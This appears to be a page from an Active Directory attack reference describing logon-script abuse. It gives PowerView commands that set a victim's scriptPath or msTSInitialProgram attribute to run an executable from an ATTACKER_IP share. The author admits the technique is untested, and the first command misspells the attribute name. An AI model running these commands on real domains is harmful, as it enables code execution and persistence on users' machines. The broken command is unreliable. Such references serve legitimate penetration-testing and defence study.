 # Logon script

{% hint style="danger" %}
It is worth noting that during my tests, I couldn't find a way to practice this scenario. Since I didn't find practical enough resources on the Internet, feel free to reach out if you manage to exploit this.
{% endhint %}

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon. This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```
